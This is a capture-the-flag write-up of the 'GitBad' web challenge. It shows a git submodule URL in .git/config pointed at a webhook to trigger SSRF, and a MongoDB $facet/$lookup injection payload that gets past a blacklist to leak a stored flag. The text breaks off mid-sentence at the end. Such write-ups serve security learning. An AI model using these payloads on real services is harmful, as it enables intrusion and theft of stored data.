7 minutes
GitBad | Web – L3ak CTF

GitBad was one of those challenges that felt a bit tricky at first, but ended up being a lot of fun to dig into. We were given the source code of a web application and a running instance to interact with. The app allowed users to register and upload a ZIP file that contained a .git folder—essentially simulating a Git project upload.
Sign up Page:

Upload Page:

To start, I ran the app locally to better understand its behavior. I registered an account and tested the ZIP upload feature to see how it handled Git project files.
After testing the app, I reviewed the source code to find vulnerabilities, focusing on how file uploads were handled and looking for clues about the flag.

This is the source code provided for the challenge, and it’s clear from the structure that the application is written in Python.

In this snippet, we can clearly see the insert_flag() function that stores the flag in the database —in this case, MongoDB as indicated by the Dockerfile— in a collection named config. Additionally, there’s a background thread running continuously to clean up the users collection and delete files in the uploads directory every 10 minutes.
From this, we understand that the goal is to leak the flag from the database. Given the setup, it’s likely that a NoSQL injection vulnerability could be exploited to achieve this.

In the routers folder, there are two main API endpoints worth noting:
- /api/upload (POST) — This endpoint allows authenticated users to upload ZIP files containing their Git projects. It verifies the type (only ZIP files allowed), then saves the upload temporarily before calling the
process_git_repo()function to handle the Git repository.

- /api/search (GET) — This endpoint lets users query the users collection in the database using a JSON filter passed as a URL parameter. However, access to this endpoint is restricted to requests coming from localhost only (127.0.0.1, localhost, or ::1), and it requires a debug=true parameter. While this seems like a security measure, this endpoint is likely the point where a NoSQL injection vulnerability can be exploited to leak data.


During this analysis, I initially considered vulnerabilities like ZipSlip and SSRF, or spoofing the
X-Forwarded-Forheader, since accessing the/api/searchendpoint (to exploit the NoSQL injection) requires the request to come fromlocalhost.
As a first try, I added the header X-Forwarded-For: 127.0.0.1 to my request to see if I could bypass the localhost check—but it wasn’t that easy. 😅

So our last hope was to find an SSRF vulnerability. I went back to the source code to see if there was anything suspicious or worth digging into. 🔍
SSRF
💡 Then my eyes caught a file named file_utils.py, which contained the process_git_repo() function along with several other interesting functions worth investigating.
process_git_repo() function:


run_git_submodule_update() function:

The first function, process_git_repo(), is a ZIP extractor function that safely extracts the contents of a ZIP file to a specified directory. It includes several important validations to prevent security vulnerabilities such as the ZIP slip vulnerability (which happens when archive entries try to escape the target directory using path traversal). These validations include checks against absolute paths, directory traversal attempts (..), excessive file counts, deep nesting, and symlinks. After extracting, the function searches for a .git directory to confirm the presence of a Git repository. If found, it proceeds to run Git submodule updates.
The second function, run_git_submodule_update(), runs the Git command git submodule update –init –recursive in the given directory. This command initializes and updates any Git submodules recursively within the repository.
After asking ChatGPT about Git submodules, I learned that they allow one Git repository to include another as a dependency via a GitHub URL. This sparked an idea: what if I added a submodule and changed its URL to see if the app would make a request to that address?

Then i changed .gitmodules file and .git/config file
old:

new:
And i did the same for .git/config
[core]
repositoryformatversion = 0
filemode = true
bare = false
logallrefupdates = true
[submodule "test-repo"]
url = https://webhook.site/11d16b36-6358-4213-8d63-bb4434d3d268
active = true

Here, I cleaned up the folder by removing the test-repo directory and the .git/modules folder to keep the Git directory depth under 6, which is important for the challenge constraints. After that, I zipped the entire test folder—including its .git directory—preparing it for upload.


OMG, it works! We can see requests hitting our webhook—this confirms the SSRF vulnerability. That’s a win! 🎉
NoSqli
Now it’s time to leak the flag from the database. To make testing the NoSQL injection easier, I modified the code to remove the X-Forwarded-For header check.
Looking at app.py and the previously mentioned search() function, we can see that the app tries to implement some security measures. It checks for dangerous MongoDB operators using:
found_disabled_key = any(key in current_app.config['DISABLED_OPERATION_MONGO'] for key in filter_keys)
It also calls limit_object_depth(filter_obj, 2, 0) to restrict the depth of the query object.


After reading the logic of the limit_object_depth() function, I realized something interesting: the application only checks the top-level keys for dangerous operators (it doesn’t inspect deeper levels or operators inside arrays).
That’s when I thought about using the $facet operator. Since $facet takes an array and the app doesn’t validate the contents of that array, we can sneak in any MongoDB operators we want inside it—even those from the blacklist.
$facet is a MongoDB aggregation stage that lets you run multiple pipelines in parallel within a single query. This makes it perfect for bypassing filters that only check top-level keys.
The key idea here was to use the $lookup aggregation stage to escape the User collection and create a relation with another collection—in this case, Config.
Looking back at this code snippet:
def insert_flag():
flag_config = Config(value=f"{os.environ.get('Flag')}", type="flag")
flag_config.save()
We can see that the flag is stored in the Config collection with the type field set to “flag”. So, I simply created a user with the username “flag”, then used $lookup to match the type field in Config with the username in User.
Here’s the payload I used to leak the flag:
{
"$facet": {
"config": [
{ "$match": { "username": "flag" } },
{
"$lookup": {
"from": "config",
"localField": "username",
"foreignField": "type",
"as": "conf_docs"
}
},
{ "$unwind": "$conf_docs" },
{
"$project": {
"_id": 0,
"flag_value": "$conf_docs.value"
}
}
]
}
}

And just like that—flag leaked! 🎉 🎉 🏁
Flag
To leak the flag, I found two possible methods:
